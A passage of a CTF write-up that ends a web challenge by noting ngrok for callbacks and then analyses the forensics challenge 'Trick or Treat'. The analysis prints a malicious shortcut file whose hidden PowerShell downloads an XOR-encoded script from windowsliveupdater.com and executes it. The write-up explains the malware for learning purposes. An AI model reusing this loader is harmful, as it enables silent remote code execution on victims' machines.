 This is all great for testing, but the CTF machine will not be able to reach us if we try supplying the previous IP address. We need to use something such as `ngrok` that can allow our server to be publicly accessible. 

![](Images/GhostlyTemplates3.png)

## Forensics
### Trick or Treat
>Another night staying alone at home during Halloween. But someone wanted to play a Halloween game with me. They emailed me the subject "Trick or Treat" and an attachment. When I opened the file, a black screen appeared for a second on my screen. It wasn't so scary; maybe the season is not so spooky after all.

----------
We are given a traffic capture file (pcap) and a lnk file, presumably the "malicious" link that our buddy fell for. First, examining the lnk file:
```
$ cat trick_or_treat.lnk 
L�F�@FC5P�O� �:i�+00�/C:\V1Windows@     �.WindowsZ1system32B    �.system32V2cmd.exe@    �.cmd.exeTrick or treatC:�/k for /f "tokens=*" %a in ('dir C:\Windows\SysWow64\WindowsPowerShell\v1.0\*rshell.exe /s /b /od') do call %a -windowstyle hidden "$asvods ='';$UserAgents = @('Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36','Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Edge/15.15063','Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; AS; rv:11.0) like Gecko');$RandomUserAgent = $UserAgents | Get-Random;$WebClient = New-Object System.Net.WebClient;$WebClient.Headers.Add('User-Agent', $RandomUserAgent);$boddmei = $WebClient.DownloadString('http://windowsliveupdater.com');$vurnwos ='';for($i=0;$i -le $boddmei.Length-2;$i=$i+2){$bodms=$boddmei[$i]+$boddmei[$i+1];$decodedChar = [char]([convert]::ToInt16($bodms, 16));$xoredChar=[char]([byte]($decodedChar) -bxor 0x1d);$vurnwos = $vurnwos + $xoredChar};Invoke-Command -ScriptBlock ([Scriptblock]::Create($vurnwos));Invoke-Command -ScriptBlock ([Scriptblock]::Create($asvods));C:\Windows\System32\shell32.dll�%SystemRoot%\System32\shell32.dll%SystemRoot%\System32\shell32.dll�%�
                                 �wN���]N�D.��Q����     ��1SPS�XF�L8C���&�m�m.S-1-5-21-3849600975-1564034632-632203374-1001
```
We can see very clearly that a request is being sent to `http://windowsliveupdater.com`. We know where communication was being sent, but it looks as though the data is being manipulated as we can see with the `xor` function, `$xoredChar=[char]([byte]($decodedChar) -bxor 0x1d);$vurnwos = $vurnwos + $xoredChar};`. When we examine the network traffic data with Wireshark, we see only one data object associated with `windowsliveupdater.com`, which makes the process easier.
